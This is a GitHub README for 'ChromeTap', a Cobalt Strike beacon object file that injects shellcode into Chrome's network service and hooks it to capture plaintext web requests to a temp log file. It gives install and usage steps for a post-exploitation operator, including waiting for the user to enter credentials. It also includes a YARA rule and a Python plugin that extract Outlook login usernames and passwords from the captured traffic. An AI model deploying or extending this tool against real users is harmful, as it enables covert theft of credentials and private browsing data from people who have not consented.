






# ChromeTap

Place a wiretap on chrome and steal secrets.

### Overview

ChromeTap is a beacon object file that will inject shellcode into chrome's network service that will place hooks allowing for plain text requests to be stolen before they are sent along the wire.  It solely uses direct syscalls to do this and is careful of its memory permissions. 

### Install

``` bash
$ git clone https://github.com/bats3c/ChromeTools
$ cd chrometools/chrometap
$ pip3 install -r huntforsecrets/requirements.txt && make
```

### Usage

- Load the CNA into cobalt strike



- Run the command `chrometap`. This will overwrite the current log file so make sure its backed up if running the command multiple times.

  

- Once you have left it running for a while and think the user might have entered credentials into a website, download the log file which is stored in `C:\windows\temp\chromecrash.log` 

  

  The log file is going to be quite big, but that's just due to the technique used to steal the data. The good news is that it will compress really well so is worth compressing on disk before downloading.

  

- With the log file now on your local machine you can use the `./hunt.py` command to find secrets inside it

  

### Writing Plugins and Rules

`hunt.py` is only able to extract secrets from requests that have supported YARA rules and plugins. These are super easy to write. Here's an example of writing a them to extract data from outlook logins.

Looking at the HTTP login request its possible to pick out strings that are specific to the request and can be used to identify it.



Allowing a YARA rule, like the one below, to find it.

YARA rules should be stored in the `rules/` directory and both file name and rule name can be anything you like. 

```
rule outlook_creds {
    meta:
        author = "@_batsec_"
        plugin = "outlook_parse"
    strings: 
        $str1 = "login.live.com" 
        $str2 = "login=" 
        $str3 = "hisScaleUnit="
        $str4 = "passwd="
    condition: 
        all of them 
}
```

When `hunt.py` finds a match, it uses the value of the `plugin` variable in the rule as the name of the plugin to load and parse the request.

A plugin is just a function in the `plugins.py` file. 

It will be given the raw request as a bytes object and should return a dictionary containing the name and secret of everything it finds, e.g. `{'site': 'login.live.com', 'username': 'asdf%40asdf.com', 'password': 'ThisIsMyVerySecurePassword123%21'}`.

The plugin to parse the outlook request is shown below.

```python
def outlook_parse(request):

    creds = {}

    creds['site'] = 'login.live.com'

    login = re.search(rb'login=(.*)&', request).group(1).decode()
    login = login[:login.index('&')]
    creds['username'] = login

    passwd = re.search(rb'passwd=(.*)&', request).group(1).decode()
    passwd = passwd[:passwd.index('&')]
    creds['password'] = passwd
    
    return creds
```

Feel free to DM me if you find any bugs or have any questions.
